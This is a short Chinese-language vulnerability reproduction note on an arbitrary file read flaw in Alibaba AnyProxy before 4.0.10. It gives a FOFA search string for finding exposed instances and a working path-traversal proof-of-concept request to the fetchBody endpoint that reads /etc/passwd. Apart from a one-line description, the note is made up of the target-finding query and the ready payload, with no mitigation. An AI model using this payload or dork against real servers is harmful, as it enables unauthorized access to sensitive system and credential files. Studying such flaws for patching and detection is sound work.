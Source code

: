 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## FOFA

```
"anyproxy"
```

## 漏洞复现

页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102008683.png)

